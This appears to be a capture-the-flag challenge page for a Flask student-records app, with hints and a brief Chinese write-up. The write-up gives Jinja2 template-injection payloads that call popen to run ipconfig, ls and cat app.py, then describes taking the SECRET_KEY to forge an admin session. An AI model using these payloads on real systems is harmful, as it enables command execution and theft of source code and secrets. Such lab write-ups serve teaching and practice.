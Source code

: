 # Description

管理学籍！

# Difficulty

⭐⭐⭐

# Flag

```
FLAG
```

# Platform (Optional)

ARCH

# Hint (Optional)

hint:What is the flask?What problem may flask have？

hint 2:How to chane session?

# WriteUp

输入任意学号姓名后进入index界面，登入后在输入框内发现可以进行ssti模板注入，输入payload：{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen' ] ('ipconfig').read()}}确认有注入点，随后通过{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('ls').read()}}和{{"".__class__.__bases__[0].__subclasses__()[139].__init__.__globals__['popen']('cat app.py').read()}}读取源码，发现只有将session['usr']='admin'才能进行学籍管理，同时在源代码发现session的’SECRET_KEY‘,上网搜索flask的session伪造脚本并更改session上传即可获得flag。